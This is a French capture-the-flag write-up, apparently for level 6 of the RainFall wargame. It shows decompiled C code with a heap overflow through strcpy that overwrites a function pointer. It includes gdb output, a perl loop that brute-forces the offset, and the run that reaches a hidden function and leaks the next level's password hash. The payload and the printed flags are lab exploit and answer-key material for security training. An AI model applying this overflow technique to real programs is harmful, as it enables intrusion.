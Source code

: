 # Level 6

pass : `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

## Sources :

```c
#include <stdlib.h>

void	n() {
	system("/bin/cat /hom/user/level7/.pass");
}

void	m(char *str) {
	puts("Nope");
}

void	main(int ac, char **av) {
	char *str = malloc(64);  // 0x40
	void * (*ptr_function)(char *);
	ptr_function = malloc(4);
	ptr_function = &m;
	strcpy(str, av[1]);
	(*ptr_function)(str);
}
```

```gdb
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy@plt
0x08048350  malloc@plt
0x08048360  puts@plt
0x08048370  system@plt
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

## Recherche :

On va essayer de faire segfaut le programme jusqu'à ce que l'`EIP` soit remplacée par l'addresse de `n` (`0x08048454`)

On écrit un petite boucle :
```sh
for((i=64; i<80; i++)); do echo "index $i"; ./level6 `(perl -e 'print "A"x('$i')."\x54\x84\x04\x08"')` ;done
```

## Exploit :

```shell
level6@RainFall:~$ for((i=64; i<80; i++)); do echo "index $i"; ./level6 `(perl -e 'print "A"x('$i')."\x54\x84\x04\x08"')` ;done
index 64
Nope
index 65
Nope
index 66
Nope
index 67
Nope
index 68
Segmentation fault (core dumped)
index 69
Segmentation fault (core dumped)
index 70
Segmentation fault (core dumped)
index 71
Segmentation fault (core dumped)
index 72
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
index 73
Segmentation fault (core dumped)
index 74
Segmentation fault (core dumped)
index 75
Segmentation fault (core dumped)
index 76
Segmentation fault (core dumped)
index 77
Segmentation fault (core dumped)
index 78
Segmentation fault (core dumped)
index 79
Segmentation fault (core dumped)
```

L'`EIP` à bien été remplacé par notre valeur avec un offset de 72. Et on a trouvé le pass pour le level suivant : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`
